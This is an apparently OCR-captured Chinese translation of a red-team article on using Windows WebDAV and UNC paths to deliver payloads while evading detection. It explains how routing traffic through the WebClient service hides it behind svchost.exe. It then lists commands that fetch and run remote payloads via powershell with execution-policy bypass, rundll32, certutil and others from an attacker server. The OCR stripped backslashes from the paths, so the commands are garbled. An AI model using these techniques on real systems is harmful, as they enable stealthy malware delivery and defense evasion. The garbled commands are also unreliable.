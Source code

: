 1.    MS-Office二进制文件或脚本引擎（powershell，script host）执行HTTP请求是很可疑的

2.    MS-Office二进制文件或脚本引擎（powershell，script host）在临时文件夹中写入某些类型的文件是很可疑的

**WebDAV**协议具有许多有趣的特性，恰巧满足这些需求：

**Windows操作系统内置支持此协议**

**许多内置的API函数，以及使用这些API的二进制文件和命令行工具，支持UNC（通用命名约定）路径。**这有几个优点：

1.    您不需要注意实现网络通信部分（没有使用任何“常用”的网络对象：Microsoft.XMLHTTP，WinHttp.WinHttpRequest，System.Net.WebClient）

2.    它将看起来像操作系统正在执行网络请求。 更确切地说，正在使用WebClient服务，因此我们可以看到连接到WebDAV服务器的svchost.exe进程，而不是powershell.exe，cscript.exe，regsvr32.exe或任何MS-Office二进制文件

3.    它是代理感知和代理友好的，如果需要，它可以使用代理身份验证

**它可以传递代理（而不是一些纯TCP或UDP回调通道）**

**<br>**

**Windows UNC路径处理挖掘**

为了实验WebDAV，我首先使用一个简单的**Docker映像**建立一个WebDAV服务器：

```
docker pull visity / webdav
```

Windows操作系统通过**WebClient**服务为WebDAV协议提供支持。 必须首先启动此服务，以便命令行工具和Windows API功能可以支持指向WebDAV服务器的UNC路径。 有趣的是，我发现如果WebClient服务没有启动，那么标准用户（即：没有管理员权限）不能通过常规方式启动它（services.msc或sc start webclient），但是使用 pushd \ webdav.server.com 命令映射WebDAV共享上的虚拟驱动器即使从普通用户也将自动启动服务。

[![](https://p2.ssl.qhimg.com/t01f2625c149c775976.jpg)](https://camo.githubusercontent.com/90c93f0c15466e0fef4926736d2c4101bb18137b/68747470733a2f2f646c2e64726f70626f7875736572636f6e74656e742e636f6d2f732f65616562716379766e73626c71336e2f7765626461765f30302e6a70673f646c3d30)<br>

一旦启动了WebClient服务，我们就可以开始用一些我们最喜爱的命令行工具来查看他们是否支持UNC指向我们的WebDAV服务器。

这是我同时在Windows 7和Windows 10上进行测试的结果：

成功的命令：



```
powershell.exe -exec bypass -f \webdav.server.compayload.ps1
rundll32.exe \webdav.server.compayload.dll,entryPoint
certutil.exe -decode \webdav.server.compayload.b64 payload.dll
```

成功的API调用：



```
VBA: Dir("\webdav.server.comsomepath")
.Net: Directory.EnumerateFiles("\webdav.server.comsomepath")
```

失败的命令：



```
regsvr32.exe /s /n /u /i:\webdav.server.compayload.sct scrobj.dll
C:WindowsMicrosoft.NETFrameworkv4.0.30319msbuild.exe \webdav.server.compayload.xml
copy \webdav.server.compayload payload
xcopy \webdav.server.compayload payload
mshta \webdav.server.compayload.hta
C:WindowsMicrosoft.NETFrameworkv4.0.30319csc.exe /out:payload.exe \webdav.server.compayload.cs
```
